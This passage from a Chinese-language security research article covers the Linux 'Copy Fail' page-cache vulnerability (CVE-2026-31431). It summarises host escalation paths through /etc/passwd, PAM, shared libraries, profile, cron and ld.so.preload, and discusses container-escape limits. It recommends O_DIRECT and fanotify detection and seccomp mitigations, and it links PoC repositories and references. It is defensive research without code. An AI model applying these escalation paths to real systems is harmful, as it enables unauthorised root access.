**宿主机层面**，攻击面远不止公开 PoC 展示的 SUID 覆写。实验验证了 7 条独立的提权路径：从最简单的 `/etc/passwd` UID 篡改（1 次 4 字节写入）、PAM 认证绕过（任意密码获取 root）、共享库 live-patching（无需重启即可修改运行中进程的代码段），到 `/etc/profile` 命令注入、Cron 脚本篡改和 `ld.so.preload` 路径劫持——这些路径对所有页缓存覆写漏洞通用，不仅限于 Copy Fail。其中共享库和 PAM 模块因 mmap 引用保持效应具有半永久持久性（`drop_caches` 无法驱逐）。**容器层面**，Page Cache 作为跨越隔离边界的全局共享状态，使得跨容器 page cache 污染和只读 volume 绕过成为现实。但经过深入验证，标准 K8s 环境下的零特权容器逃逸在架构上不可行——containerd/runc 不会在宿主机上下文中执行 snapshot 层文件，需要额外的特权配置（hostPath、`CAP_DAC_READ_SEARCH` 等）才能将 page cache 篡改转化为逃逸。Docker 环境的 `docker export` 可将篡改数据持久化且 `docker diff` 无法发现，在供应链场景中有隐蔽性价值。

从更宏观的视角看，Copy Fail 是"splice 零拷贝 + 内核 in-place 写回"这一页缓存覆写模式中的一员——从 2022 年的 Dirty Pipe 到 2026 年的 Copy Fail 和紧随其后的 Dirty Frag (CVE-2026-43284/43500)，splice 将 page cache page 引用注入内核子系统后被意外写回的漏洞已在三个独立子系统中反复出现。Copy Fail 修复后仅 8 天，Dirty Frag 即以同样的原语在不同子系统中被发现。这意味着防御不能只盯着 `AF_ALG`——下一个变种可能来自任何包含 in-place 操作的零拷贝路径。

正因如此，检测的思路应该从"检测攻击手段"转向"检测攻击结果"：`O_DIRECT` 绕过 page cache 直读磁盘，与普通 `read()` 比对即可发现篡改。这一方法对所有仅修改页缓存的漏洞通用（Copy Fail、Dirty Pipe、Dirty Frag 以及未来同类 0-day），Dirty COW 除外（它会写回磁盘，需要传统文件完整性检查）。对于 SUID/SGID 二进制，将 O_DIRECT 比对与 `fanotify` 的 `FAN_OPEN_EXEC_PERM` 结合，可以在 `execve()` 时实时拦截被篡改的执行；其余攻击面（PAM 模块、共享库、配置文件等）则通过 O_DIRECT 定期扫描覆盖。

**防御与检测建议**：

1. **升级内核**（根本修复）
2. **部署 seccomp profile 阻止 AF_ALG**（容器环境最简单有效的缓解；Docker ≥ 29.4.3 已内置）
3. **部署 fanotify + O_DIRECT Guard**（执行时拦截被篡改的 SUID/SGID 二进制，阻断最直接的提权路径）
4. **O_DIRECT 定期扫描关键文件**（覆盖 Guard 无法拦截的攻击面：PAM 模块、共享库、`/etc/passwd`、`/etc/profile` 等配置文件，以及容器 lower layer）
5. **Auditd / Falco 基线告警**（审计兜底，记录 AF_ALG 使用行为）

---

*漏洞详情最初由 Taeyang Lee 在 [xint.io](https://xint.io/blog/copy-fail-linux-distributions) 公开披露，本文在其基础上进行了独立的深入分析与实验验证。*

---

## 附录：实验代码

本文涉及的所有实验脚本和配置文件均已开源：

| 用途 | 链接 |
|------|------|
| **页缓存完整性检测工具**（fanotify + O_DIRECT Guard） | [github.com/0xlane/pagecache-guard](https://github.com/0xlane/pagecache-guard) |
| **宿主机攻击路径 PoC**（passwd/PAM/共享库/profile/cron/preload/SUID） | [pagecache-guard/poc/host-attacks](https://github.com/0xlane/pagecache-guard/tree/main/poc/host-attacks) |
| QEMU 调试环境（Dockerfile、内核构建、C PoC） | [Gist: copyfail-qemu-env](https://gist.github.com/0xlane/a854338363e449bdb002b43ff5080e55) |
| GDB 断点脚本（SGL 观测、scratch write 追踪） | [Gist: copyfail-gdb-scripts](https://gist.github.com/0xlane/0d565281d6a2ae05de2fc310a4a23a90) |
| 容器实验（跨租户攻击、hostPath 绕过、层共享验证） | [Gist: copyfail-container-experiments](https://gist.github.com/0xlane/d89e230c9e18bfd8cc126452352afae6) |

---

## 参考文献

### 漏洞披露与分析

- Taeyang Lee, *Copy Fail: One-shot local privilege escalation via the Linux crypto API* — [xint.io](https://xint.io/blog/copy-fail-linux-distributions)
- NVD, *CVE-2026-31431* — [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2026-31431)
- Copy Fail 官方页面 — [copy.fail](https://copy.fail/)
- Microsoft Defender, *CVE-2026-31431 Copy Fail vulnerability enables Linux root privilege escalation* — [microsoft.com](https://www.microsoft.com/en-us/security/blog/2026/05/01/cve-2026-31431-copy-fail-vulnerability-enables-linux-root-privilege-escalation/)
- CISA Known Exploited Vulnerabilities Catalog — [cisa.gov](https://www.cisa.gov/known-exploited-vulnerabilities-catalog?field_cve=CVE-2026-31431)

### 内核 Commits

- [`a5079d084f8b`](https://github.com/torvalds/linux/commit/a5079d084f8b) — 2011, authencesn 模块引入
- [`72548b093ee3`](https://github.com/torvalds/linux/commit/72548b093ee3) — 2017, **漏洞引入**: algif_aead in-place 优化
- [`a664bf3d603d`](https://github.com/torvalds/linux/commit/a664bf3d603dc3bdcf9ae47cc21e0daec706d7a5) — 2026, **漏洞修复**: 回退 in-place

### 容器安全响应

- Juliet, *We tested Copy Fail in Kubernetes: PSS Restricted + RuntimeDefault do not block AF_ALG* — [juliet.sh](https://juliet.sh/blog/we-tested-copy-fail-in-kubernetes-pss-restricted-runtime-default-af-alg)
- Stream Security, *CVE-2026-31431: how Copy Fail behaves in Kubernetes* (EKS 实证) — [stream.security](https://www.stream.security/post/cve-2026-31431-how-copy-fail-behaves-in-kubernetes)
- Percivalll, *Copy Fail Kubernetes PoC* (ACK/EKS/GKE 验证, Pod→Node escape) — [GitHub](https://github.com/Percivalll/Copy-Fail-CVE-2026-31431-Kubernetes-PoC)
- Docker seccomp 修复 (block AF_ALG, v29.4.2) — [moby/moby#52494](https://github.com/moby/moby/pull/52494)
- Docker 29.4.3 回归修复 (AppArmor/SELinux) — [v29.4.3 release](https://github.com/moby/moby/releases/tag/docker-v29.4.3)
- Sidero Labs / Talos 响应 — [siderolabs.com](https://www.siderolabs.com/blog/exploit-fail-cve-2026-31431-copy-fail-barely-scratches-talos-linux/)
- vArmor Copy Fail 缓解规则 (AppArmor/BPF) — [GitHub](https://github.com/bytedance/vArmor/blob/main/website/docs/guides/policies_and_rules/built_in_rules/vulnerability_mitigation.md#copy-fail-mitigation)
- iwanhae, *copyfail-ebpf-k8s* (eBPF 缓解) — [GitHub](https://github.com/iwanhae/copyfail-ebpf-k8s)

### 发行版安全公告

- Ubuntu, *Fixes available for CVE-2026-31431 (Copy Fail)* — [ubuntu.com](https://ubuntu.com/blog/copy-fail-vulnerability-fixes-available)
- Red Hat, *RHSB-2026-02 Cryptographic Subsystem Privilege Escalation* — [access.redhat.com](https://access.redhat.com/security/vulnerabilities/RHSB-2026-02)
- Debian Security Tracker, *CVE-2026-31431* (DSA-6238-1, DSA-6243-1) — [security-tracker.debian.org](https://security-tracker.debian.org/tracker/CVE-2026-31431)
- SUSE, *SUSE responds to the copy.fail vulnerability* — [suse.com](https://www.suse.com/c/suse-responds-to-the-copy-fail-vulnerability/)
- Alpine Linux Security Tracker — [security.alpinelinux.org](https://security.alpinelinux.org/vuln/CVE-2026-31431)
- Oracle Linux CVE Tracker — [linux.oracle.com](https://linux.oracle.com/cve/CVE-2026-31431.html)
- AlmaLinux, *CVE-2026-31431 Copy Fail* — [almalinux.org](https://almalinux.org/blog/2026-05-01-cve-2026-31431-copy-fail/)
- Arch Linux Security Tracker — [security.archlinux.org](https://security.archlinux.org/CVE-2026-31431)
- AWS Security Bulletin, *CVE-2026-31431* — [aws.amazon.com](https://aws.amazon.com/security/security-bulletins/rss/2026-026-aws/)
- Bottlerocket issue #4821 — [GitHub](https://github.com/bottlerocket-os/bottlerocket/issues/4821)
- Fedora Discussion, *Is Copy Fail patched in Fedora 43?* — [discussion.fedoraproject.org](https://discussion.fedoraproject.org/t/is-the-copy-fail-cve-2026-31431-vulnerability-already-patched-in-fedora-43/190016)
- CloudLinux / KernelCare, *Copy Fail live patches* — [blog.cloudlinux.com](https://blog.cloudlinux.com/cve-2026-31431-copy-fail-kernel-update)

### 安全厂商分析

- Palo Alto Unit 42, *Copy Fail: What You Need to Know* — [unit42.paloaltonetworks.com](https://unit42.paloaltonetworks.com/cve-2026-31431-copy-fail/)
- Wiz.io, *CopyFail: Linux privilege escalation vulnerability* — [wiz.io](https://www.wiz.io/blog/copyfail-cve-2026-31431-linux-privilege-escalation-vulnerability)
- Sysdig, *CVE-2026-31431 Copy Fail: Linux kernel flaw lets local users gain root* — [sysdig.com](https://www.sysdig.com/blog/cve-2026-31431-copy-fail-linux-kernel-flaw-lets-local-users-gain-root-in-seconds)
- Kudelski Security — [kudelskisecurity.com](https://kudelskisecurity.com/research/linux-cve-2026-31431-copy-fail-lpe-enables-stealthy-root-access-container-escape)
- SentinelOne Vulnerability Database — [sentinelone.com](https://www.sentinelone.com/vulnerability-database/cve-2026-31431/)
- Kodem Security, *CVE-2026-31431 Remediation Runbook* — [kodemsecurity.com](https://www.kodemsecurity.com/resources/cve-2026-31431-copy-fail-linux-kernel-lpe-breakdown-and-remediation-runbook)

### 社区讨论与报道

- Hacker News 讨论 (含缓解措施和 WSL2 影响) — [news.ycombinator.com](https://news.ycombinator.com/item?id=47952181)
- CyberKendra, *A 732-byte Python script can get root* — [cyberkendra.com](https://www.cyberkendra.com/2026/04/a-732-byte-python-script-can-get-root.html)

### 相关页缓存覆写漏洞

- CVE-2016-5195 *Dirty COW* — [dirtycow.ninja](https://dirtycow.ninja/)
- CVE-2017-1000405 *Huge Dirty COW* — [Bindecy](https://medium.com/bindecy/huge-dirty-cow-cve-2017-1000405-110eca132de0)
- CVE-2022-0847 *Dirty Pipe* — [dirtypipe.cm4all.com](https://dirtypipe.cm4all.com/)
- CVE-2026-43284 + CVE-2026-43500 *Dirty Frag* — [dirtyfrag.io](https://dirtyfrag.io/) / [GitHub PoC](https://github.com/V4bel/dirtyfrag) / [oss-security](https://www.openwall.com/lists/oss-security/2026/05/07/8)

### 前置研究

- Taeyang Lee, *kernelCTF AF_ALG attack surface research* — [google/security-research#332](https://github.com/google/security-research/pull/332)
- Xint Code AI 安全研究平台 — [code.xint.io](https://code.xint.io/)
